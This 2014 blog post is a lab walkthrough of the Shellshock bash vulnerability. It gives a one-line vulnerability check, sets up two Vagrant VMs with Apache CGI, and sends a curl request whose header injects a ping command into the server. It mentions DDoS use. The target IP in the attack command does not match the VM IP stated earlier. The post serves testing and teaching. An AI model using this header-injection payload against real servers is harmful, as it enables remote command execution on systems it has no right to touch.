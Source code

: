 ```yaml
---
author: andrei
comments: true
date: 2014-09-25 22:15:29+00:00
layout: post
slug: test-shellshock-vulnerability
title: Shellshock proof of concept
excerpt: "Shellshock proof of concept"
categories:
- hack
- linux
---
```

{% include _toc.html %}

The vulnerability that was found on linux/mac systems affecting Bash: ShellShock. It looks like this is bigger than Heartbleed! It's been out there since 1993 and it will be very hard to get rid of it all over. In this post I will present how to check if your server is vulnerable. Also i am creating  a small setup to check what the bug can do, so buckle up!


<div style="text-align:center" markdown="1">
![shellshock](/images/shellshock-300x168.jpg)
</div>




**Shellshock** is newly discovered vulnerability in software that's in computer systems we use everyday. It's kind of like Heartbleed, the Open/SSL bug that scared everyone senseless a few months ago and remains unpatched on thousands of systems. According to some experts, however, Shellshock could be way worse, and it's been around for decades. Shellshock affect bash, if exploited successfully an attacker could take control over the an unpatched linux system.

##How does it work?

The short story : Linux, like most of the operating systems use environment variable. Generally you can assign values to a environment variable, but also function definitions. The problem is that after defining the function, Bash continues to process shell commands resulting in a code injection attack.

##How to check if a server is vulnerable?

{% highlight bash %}
env x='() { :;}; echo vulnerable' bash -c /bin/true
{% endhighlight %}

Run the above command in a console. If you get "**vulnerable**" as output, that means that the server is exploitable.If the server is patched the following error message will be shown:
**bash: warning: x: ignoring function definition attempt**
** bash: error importing function definition for `x'**

##Set up the lab
	
  * provision 2 virtual machines


I have set up 2 Centos 5 VMs for this using VirtualBox and Vagrant. Below you can see my Vagrant config file:
{% highlight bash %}
vi Vagrantfile
VAGRANTFILE_API_VERSION = "2"
Vagrant.configure(VAGRANTFILE_API_VERSION) do |config|
config.vm.define "vm1" do |vm1|
vm1.vm.box = "centos5"
vm1.vm.hostname = "vm1"
vm1.vm.network "public_network"
end
config.vm.define "vm2" do |vm2|
vm2.vm.box = "centos5"
vm2.vm.hostname = "vm2"
vm2.vm.network "public_network"
end
config.vm.provider "virtualbox" do |vb|
vb.customize ["modifyvm", :id, "--memory", "512"]
end
end

vagrant up

vagrant ssh vm1
{% endhighlight %}

After running "vagrant up" you should have 2 VMs running with the following ips: vm1 192.168.1.149, vm2 192.168.1.150
The first VM will be the vulnerable server, and will be attacked from Vm2

	
  * Install apache and php-cgi on VM1


{% highlight bash %}

VM1# yum -y install httpd php-cgi

{% endhighlight %}

	
  * Configure apache on VM1. Add the following virtual host definition in your config file and start up apache


{% highlight bash %}

VM1# vi /etc/httpd/conf/httpd.conf

.........
ServerName VM1
DocumentRoot /var/www/html
ScriptAlias /cgi-bin/ "/var/www/cgi-bin/"
<Directory "/var/www/html">
Options +Indexes FollowSymLinks +ExecCGI
AddHandler php5-fastcgi .php
Action php5-fastcgi /cgi-bin/php.fastcgi
AllowOverride All
Order allow,deny
Allow from All
;
;

VM1# /etc/init.d/httpd start

{% endhighlight %}

After starting up Apache, make sure your server is not patched, so it has a vulnerable version of Bash. You can find a list with the vulnerable versions here: [CVE-2014-6271](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-6271) . Also you can try running the command posted at the beginning of this post.
Make sure you have the following folder created on VM1: /var/www/cgi-bin/ and set it's permissions to 755. Also create a small bash script named test.cgi and set permissions to it.

{% highlight bash %}

VM1# vi /var/www/cgi-bin/test.cgi

...

#!/bin/bash
echo
echo "test"

...

VM1# chmod 755 /var/www/cgi-bin/ -R

{% endhighlight %}



	
  * Start the attack from VM2


{% highlight bash %}

vagrant ssh vm2

VM2# curl --header "X: () { :; }; /bin/ping www.google.com" 192.168.1.159/cgi-bin/test.cgi

{% endhighlight %}

You can now check all icmp packets on your VM1. You will see lots of ping requests going out of VM1 to Google. Imagine this type of attack running on a larger scale, it would be a very efficient of DDOS attack.

{% highlight bash %}

VM1# tcpdump -i eth0 host 192.168.1.149 and icmp

{% endhighlight %}


##So what did we do ?


We send a simple /GET request to a apache cgi server and we have set a header value to a function definition and a bash command.  Of course you can run the attack  from a regular browser using a proxy (burp, fiddler,..) not necessarily from the command line. You just need to set a header to that value and the result will be the same.
As it turns out DHCP servers are also vulnerable to this bug. I'm not going to present that , but you can see how simple that can be done here: [https://www.trustedsec.com/september-2014/shellshock-dhcp-rce-proof-concept/](https://www.trustedsec.com/september-2014/shellshock-dhcp-rce-proof-concept/)







